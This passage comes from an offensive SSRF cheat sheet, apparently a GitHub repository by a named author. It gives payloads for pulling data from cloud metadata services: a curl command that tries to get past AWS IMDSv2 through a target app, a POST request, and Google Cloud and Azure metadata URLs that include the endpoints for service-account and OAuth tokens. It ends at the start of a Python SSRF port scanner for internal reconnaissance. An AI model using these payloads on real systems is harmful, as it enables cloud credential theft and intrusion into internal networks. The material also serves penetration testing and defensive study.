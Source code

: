 #### AWS IMDSv2 Bypass
```bash
# IMDSv2 requires token, but some applications might forward headers
# Try with X-Forwarded-For or other headers
curl -H "X-Forwarded-For: 169.254.169.254" http://vulnerable-app.com/fetch?url=http://169.254.169.254/latest/meta-data/

# Try with different HTTP methods
POST /fetch HTTP/1.1
Content-Type: application/x-www-form-urlencoded

url=http://169.254.169.254/latest/meta-data/
```

#### Google Cloud Metadata
```bash
# Basic metadata (requires Metadata-Flavor header)
http://metadata.google.internal/computeMetadata/v1/

# Instance information
http://metadata.google.internal/computeMetadata/v1/instance/
http://metadata.google.internal/computeMetadata/v1/instance/name
http://metadata.google.internal/computeMetadata/v1/instance/zone

# Service accounts and tokens
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/email

# Project information
http://metadata.google.internal/computeMetadata/v1/project/project-id
http://metadata.google.internal/computeMetadata/v1/project/numeric-project-id
```

#### Azure Metadata Service
```bash
# Basic metadata
http://169.254.169.254/metadata/instance?api-version=2021-02-01

# Instance information
http://169.254.169.254/metadata/instance/compute?api-version=2021-02-01
http://169.254.169.254/metadata/instance/network?api-version=2021-02-01

# Access tokens
http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/
```

### 2. 🔍 Internal Network Reconnaissance

#### Port Scanning via SSRF
```python
#!/usr/bin/env python3
"""
SSRF Port Scanner

Author: LakshmiKanthanK(letchupkt)
Portfolio: https://letchupkt.vgrow.tech
"""

import requests
import threading
import time

```